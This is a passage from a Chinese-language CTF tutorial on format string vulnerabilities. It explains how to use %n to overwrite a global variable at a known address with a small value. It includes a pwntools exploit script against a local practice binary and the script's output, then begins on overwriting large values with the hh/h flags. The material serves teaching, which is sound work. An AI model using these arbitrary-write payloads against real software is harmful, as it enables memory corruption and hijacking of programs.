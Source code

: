### 覆盖任意地址内存

#### 覆盖小数字

首先，我们来考虑一下如何修改data段的变量为一个较小的数字，比如说，**小于机器字长的数字**。这里以2为例。可能会觉得这其实没有什么区别，可仔细一想，真的没有么？如果我们还是将要覆盖的地址放在最前面，那么将直接占用机器字长个(4或8)字节。显然，无论之后如何输出，都只会比4大。

> 或许我们可以使用整形溢出来修改对应的地址的值，但是这样将面临着我们得一次输出大量的内容。而这，一般情况下，基本都不会攻击成功。

那么我们应该怎么做呢？再仔细想一下，我们有必要将所要覆盖的变量的地址放在字符串的最前面么？似乎没有，我们当时只是为了寻找偏移，所以才把tag放在字符串的最前面，如果我们把tag放在中间，其实也是无妨的。类似的，我们把地址放在中间，只要能够找到对应的偏移，其照样也可以得到对应的数值。前面已经说了我们的格式化字符串的为第6个参数。由于我们想要把2写到对应的地址处，故而格式化字符串的前面的字节必须是

```text
aa%k$nxx
```

此时对应的存储的格式化字符串已经占据了6个字符的位置，如果我们再添加两个字符aa，那么其实aa%k就是第6个参数，$nxx其实就是第7个参数，后面我们如果跟上我们要覆盖的地址，那就是第8个参数，所以如果我们这里设置k为8，其实就可以覆盖了。

利用ida可以得到a的地址为0x0804A024（由于a、b是已初始化的全局变量，因此不在堆栈中）。

```asm
.data:0804A024                 public a
.data:0804A024 a               dd 7Bh
```

故而我们可以构造如下的利用代码

```python
def fora():
    sh = process('./overwrite')
    a_addr = 0x0804A024
    payload = 'aa%8$naa' + p32(a_addr)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```

对应的结果如下

```shell
➜  overwrite git:(master) ✗ python exploit.py
[+] Starting local process './overwrite': pid 76508
[*] Process './overwrite' stopped with exit code 0 (pid 76508)
0xffc1729c
aaaa$\xa0\x0modified a for a small number.
```

其实，这里我们需要掌握的小技巧就是，我们没有必要把地址放在最前面，放在哪里都可以，只要我们可以找到其对应的偏移即可。

#### 覆盖大数字

上面介绍了覆盖小数字，这里我们介绍如何覆盖大数字。上面我们也说了，我们可以选择直接一次性输出大数字个字节来进行覆盖，但是这样基本也不会成功，因为太长了。而且即使成功，我们一次性等待的时间也太长了，那么有没有什么比较好的方式呢？自然是有了。

不过在介绍之前，我们得先再简单了解一下，变量在内存中的存储格式。首先，所有的变量在内存中都是以字节进行存储的。此外，在x86和x64的体系结构中，变量的存储格式为以小端存储，即最低有效位存储在低地址。举个例子，0x12345678在内存中由低地址到高地址依次为\x78\x56\x34\x12。再者，我们可以回忆一下格式化字符串里面的标志，可以发现有这么两个标志：

```text
hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。
```
